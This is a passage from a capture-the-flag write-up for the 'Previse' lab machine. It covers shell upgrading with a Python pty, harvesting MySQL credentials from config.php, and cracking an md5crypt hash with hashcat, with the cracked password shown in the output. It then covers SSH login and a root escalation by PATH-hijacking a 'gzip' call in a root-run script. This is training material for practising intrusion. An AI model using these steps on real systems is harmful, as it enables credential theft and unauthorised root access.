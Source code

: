 * spawn pty - 
	python -c "import pty; pty.spawn('/bin/bash')"
	export TERM=xterm
* You get a proper terminal.
* In source code review, we did get a file called *'config.php'*. 	Here we get credentials for mysql. Try connecting to mysql while on the shell using - musql -u \<username> -p
* Enter passwd and you get access to databases. 
* Do - 
	* show databases;
	* use \<database>
	* show tables
	* select * from \<table>
* You get access to user creds
* Password is an hash, using hashcat to decrypt the password (visit [hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) for more info) -
```bash
hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Mon Oct 11 16:52:18 2021 (25 mins, 14 secs)
Time.Estimated...: Mon Oct 11 17:17:32 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     4690 H/s (12.47ms) @ Accel:32 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey

Started: Mon Oct 11 16:50:35 2021
Stopped: Mon Oct 11 17:17:33 2021
```

* login using ssh - ssh \<username>@\<machine-ip>
* Enter the decrypted password
* you get logged in. Browse around to get user flag

*Previlege Escalation - *

* goto linpeas.sh and check methodology
* Run Linpeas and search for something - I found some files in Interesting writable files section - /opt/scripts
* In that you will find an sh file with gzip as command. 
* Edit PATH variable to current working directory - export PATH=\$(pwd):$PATH
* Make a file with name gzip and make it executable using chmod 777. Add /bin/bash to it. Since we have root previleges for this directory we can enter into root using this exe
* Execute the sh and you will enter into root. Capture root flags and You have successfully pwned PREVISE 
